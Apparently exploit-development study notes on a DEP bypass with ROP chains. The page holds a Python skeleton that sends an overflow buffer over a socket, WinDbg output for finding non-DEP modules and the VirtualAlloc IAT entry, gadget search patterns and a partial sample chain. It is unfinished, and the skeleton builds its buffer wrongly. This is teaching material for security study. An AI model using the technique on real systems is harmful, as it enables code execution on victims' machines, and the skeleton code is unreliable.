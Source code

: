 # DEP Bypass

Uses Gadgets / Rop Chains to call the `VirtualAlloc` function and execute shellcode

### 1. Skeleton Starting Python Code
```
import socket
import sys
from struct import pack

# variables
SIZE = 500

# CommandBuffer
# These lines execute VirtualAlloc with shellcode
cb  = pack("<L", (0x45454545)) # dummy VirtualAlloc Address
cb += pack("<L", (0x46464646)) # Shellcode Return Address
cb += pack("<L", (0x47474747)) # # dummy Shellcode Address
cb += pack("<L", (0x48484848)) # dummy dwSize 
cb += pack("<L", (0x49494949)) # # dummy flAllocationType 
cb += pack("<L", (0x51515151)) # dummy flProtect

# buffer
offset = b'\x41' * SIZE
eip = b'\x42' * 4
rop = b'\x43' * (0x600 - SIZE - len(eip))

buf = b'offset + va + eip + rop'
print('[I] %s : %s' % (len(buf),buf)) # always good to print buffers to make sure they meet expectation

def main():
  if len(sys.argv) != 3:
    print('Usage: %s <ip_address> <port>\n' % (sys.argv[0]))
    sys.exit(1)

  server = sys.argv[1]
  port = sys.argv[2]
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  
  s.send(buf)
  s.close()

  print('[+] Packet sent')
  sys.exit()

if __name__ == '__main__':
  main()
```

### 2. Identify Offset  
...  

### 3. Find Bad Characters 
[Finding Bad Characters](https://github.com/cyberheisen/Penetration-Testing-Notes/blob/main/exploit_dev/identifying_bad_characters.md)  

### 4. Identify File(s) to use for Gadgets
* Files must not have DEP enabled.
* Files must not have bad characters in high bits of memory address
```
# Using Windbg
# list modules
>lm
start    end        module name
00190000 001c3000   snclientapi   (deferred)             
001d0000 001fd000   libcclog   (deferred)             
00400000 00c0c000   GraceServer   (deferred)             
012c0000 01302000   NLS        (deferred)             
01380000 013ab000   gsk8iccs   (deferred)             
01440000 0147a000   icclib019   (deferred)             
030d0000 031c0000   libeay32IBM019   (deferred)

>!dh -f <memory base address>
 ...
  # This means DEP/NX is enabled
    4140  DLL characteristics
            Dynamic base
            NX compatible
            Guard
  ...
  # No DEP enabled
  0  DLL characteristics
```

### 5.  Extract Gadgets from file
[ROPgadget](https://github.com/JonathanSalwan/ROPgadget)  

Using `rp-win-x86.exe`
```
C:\rp-win-x86 -f <file> -r <max number of instructions> > <output file>
```
Load the output file into Visual Studio Code or text editor to search.

### 6.  Access the Bytes containing the dummy VirtualAlloc Address

  1. Save the ESP register address into another register, such as EAX, EDI, or ESI.  This address will later be used with an offset to access the dummy VirtualAlloc Address.
     * Search the gadgets text file for suitable operations to accomplish this.
      - Gadget memory addresses cannot contain bad characters  
      - Remember top of the stack contains the function return address.    
     * Place first gadget into eip.  Subsequent gadgets should be in the 'rop' section
     * Sample searches
       ```
       push esp.* ; .* pop.* ; ret
       mov .*, esp
       xchg .*, esp
       xor .*, .* ; add .*, esp
       lea .*, esp
       sub .*, .*, adc .*, esi
       
       ```
       
    
     ```
      # rop chain
        eip = pack("<L", (0x505412f9))  # mov eax, ecx; ret;  :: csftpav6.dll | copy ecx address to eax
        rop = pack("<L", (0x505115a3))  # pop ecx; ret;  :: csftpav6.dll | pop the offset value into ecx
        rop += pack("<L", (0xffffe770)) # -1680 | offset value
        rop += pack("<L", (0x50533bea)) # sub eax, ecx; ret;  :: csftpav6.dll | subtract eax from ecx to get the start of the VirtualAlloc field
  
       ...
       buf = offset + cb + eip + rop 
       ```

### 7. Obtaining VirtualAlloc Address

```
#Using Windbg

>lm m <module name>
Browse full module list
start    end        module name
50500000 50577000   module_name   (export symbols)       C:\module_name.DLL

> !dh -f 50500000

File Type: DLL
FILE HEADER VALUES
     14C machine (i386)
       5 number of sections
4C056121 time date stamp Tue Jun  1 12:36:01 2010

       0 file pointer to symbol table
       0 number of symbols
      E0 size of optional header
    2102 characteristics
            Executable
            32 bit word machine
            DLL
...

       0  DLL characteristics
   53870 [    1068] address [size] of Export Directory
   52A2C [      50] address [size] of Import Directory
   60000 [   12500] address [size] of Resource Directory
       0 [       0] address [size] of Exception Directory
   71000 [    16A8] address [size] of Security Directory
   73000 [    2AF4] address [size] of Base Relocation Directory
       0 [       0] address [size] of Debug Directory
       0 [       0] address [size] of Description Directory
       0 [       0] address [size] of Special Directory
       0 [       0] address [size] of Thread Storage Directory
   523E0 [      40] address [size] of Load Configuration Directory
       0 [       0] address [size] of Bound Import Directory
   4A000 [     28C] address [size] of Import Address Table Directory  **** <--- IAT Address ****
       0 [       0] address [size] of Delay Import Directory
       0 [       0] address [size] of COR20 Header Directory
       0 [       0] address [size] of Reserved Directory
       
>dps 5054a000 l28c
5054a000  757f0020 ADVAPI32!RegCreateKeyExA
5054a004  757efc10 ADVAPI32!RegOpenKeyExA
5054a008  757ef560 ADVAPI32!RegCloseKey
5054a00c  758138b0 ADVAPI32!RegSetValueA
5054a010  757e1200 ADVAPI32!RegQueryValueA
5054a014  757f02c0 ADVAPI32!RegDeleteKeyA
5054a018  757f2a70 ADVAPI32!RegEnumKeyA
...
5054a214  7596c990 KERNEL32!GetConsoleCP
5054a218  7596c9a0 KERNEL32!GetConsoleMode
5054a21c  7596c3c0 KERNEL32!FlushFileBuffers
5054a220  759638c0 KERNEL32!VirtualAllocStub  **** <--- VirtualAlloc Address ****
5054a224  75967120 KERNEL32!GetModuleHandleAStub
5054a228  759670d0 KERNEL32!RtlUnwindStub
5054a22c  7596ac40 KERNEL32!GetStringTypeAStub
5054a230  75966600 KERNEL32!GetStringTypeWStub
```
### 8. 

